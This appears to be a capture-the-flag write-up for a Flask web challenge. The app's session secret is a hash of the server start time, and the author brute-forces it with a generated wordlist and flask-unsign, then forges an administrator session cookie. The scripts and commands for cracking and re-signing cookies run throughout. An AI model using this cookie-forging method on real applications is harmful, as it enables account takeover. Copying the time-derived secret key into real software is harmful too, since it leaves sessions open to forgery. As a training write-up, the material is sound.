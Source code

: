 ## Description
One may not be the one they claim to be
### Analyze the source code
```python
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
app.config['PERMANENT_SESSION_LIFETIME'] = timedelta(seconds=300)

flag = os.environ.get('FLAG', "flag{this_is_a_fake_flag}")
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
```
The sever got its start time and covert it to a secure key, which was restart every 10 minutes.
The secret got encoded by a fixed uuid.
```python
@app.route('/admin')
def admin_page():
    """Display the admin page if the user is an admin."""
    if session.get('is_admin') and uuid.uuid5(secret, 'administrator') and session.get('username') == 'administrator':
        return flag
    else:
        abort(401)
```
In order to get the flag, I need to get the session `is_admin`, change the uuid of `administrator` with `administrator` username.

Login in to the page, I got a cookie which contains the above elements and the signature key. One example: 
```
eyJpc19hZG1pbiI6ZmFsc2UsInVpZCI6IjFlMWU0NzU4LTUwYTUtNWZjNy04M2E2LThhMDYxN2VmNDcyOCIsInVzZXJuYW1lIjoiYSJ9.ZvBiuA.G_rrcFBFXVKo5tR_i_UCelRgqYA
{"is_admin":false,"uid":"1e1e4758-50a5-5fc7-83a6-8a0617ef4728","username":"a"}fðb¸«­ÁAuJ£Q@*
```
Thank `nh0kt1g3r12` for letting me know that I should brute-force the key by using flask-unsign.
### Brute-force the key
First, let convert the time provided in `/status` into the key by using this script:
```python
from datetime import datetime, timedelta
server_start_time = datetime.strptime('2024-09-22 18:32:00', '%Y-%m-%d %H:%M:%S')
```
Then, make a wordlist that contains 10000 hash key
```python
from datetime import datetime, timedelta
import hashlib

server_start_time = 20240921183020

for i in range (0,10**5):
  server_start_str = server_start_time - i
  secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
  f = open('hash-time-wordlist.txt','a')
  f.write(secure_key+'\n')
  f.close()
```
After getting the wordlist, use flask-unsign to brute-force the key with the following command:
```
export PATH=$PATH:/home/nguyenlong05/.local/bin
flask-unsign --unsign --wordlist hash-time-wordlist.txt --cookie "eyJpc19hZG1pbiI6ZmFsc2UsInVpZCI6IjFlMWU0NzU4LTUwYTUtNWZjNy04M2E2LThhMDYxN2VmNDcyOCIsInVzZXJuYW1lIjoiYSJ9.ZvBiuA.G_rrcFBFXVKo5tR_i_UCelRgqYA"
```
Now, generate a hash with the correct element and key:
```
$ flask-unsign --sign --cookie "{'is_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}" --secret 'dd3d603b287e7645a135fb71b30cb4373082f8d58883e129d921912b535cd493'
eyJpc19hZG1pbiI6dHJ1ZSwidWlkIjoiMDJlYzE5ZGMtYmIwMS01OTQyLWE2NDAtNzA5OWNkYTc4MDgxIiwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.ZvETLw.JZZA5gzdC6YS1kbw2Nosh6ZdOsk
```
